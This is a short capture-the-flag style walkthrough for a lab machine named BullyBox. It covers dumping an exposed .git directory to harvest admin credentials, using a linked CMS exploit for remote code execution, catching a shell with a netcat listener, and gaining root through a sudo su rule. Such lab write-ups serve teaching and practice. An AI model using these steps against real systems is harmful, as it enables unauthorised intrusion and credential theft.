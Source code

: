 # 🏴 BullyBox (Linux)

## 🧠 Initial Foothold

- Ran `dirb` and discovered a hidden `.git` directory.

- Used `git-dumper` to retrieve the repo:
  ```bash
  git-dumper http://bullybox.local/ git_loot
  ```

- Read `bb-config.php` and found admin credentials.

- In `bb-config-sample.php`, identified the login path:
  ```
  http://www.yourdomain.com/index.php?_url=/bb-admin
  ```

- Logged into the CMS with credentials.

- Located and used [Exploit 51108](https://www.exploit-db.com/exploits/51108), which requires admin access.

- Crafted a valid POST request (based on exploit + [adjusted request](obsidian://open?vault=Obsidian%20Vault&file=BullyBox%20POST%20request%20to%20get%20RCE)).

- Started a listener on port 80:
  ```bash
  nc -nlvp 80
  ```

- Visited `/ax.php` and received a shell.

---

## 🚀 Privilege Escalation

- Ran:
  ```bash
  sudo -l
  ```

- Found permission to run:
  ```bash
  (ALL) NOPASSWD: /bin/su
  ```

- Escalated with:
  ```bash
  sudo su
  ```

- Gained root access.

---

🧼 **Post-Exploitation Note:**  
Clear `.git` folder exposure and CMS credentials. Clean up web shell if uploaded.

> ⚠️ This walkthrough is for educational purposes only.
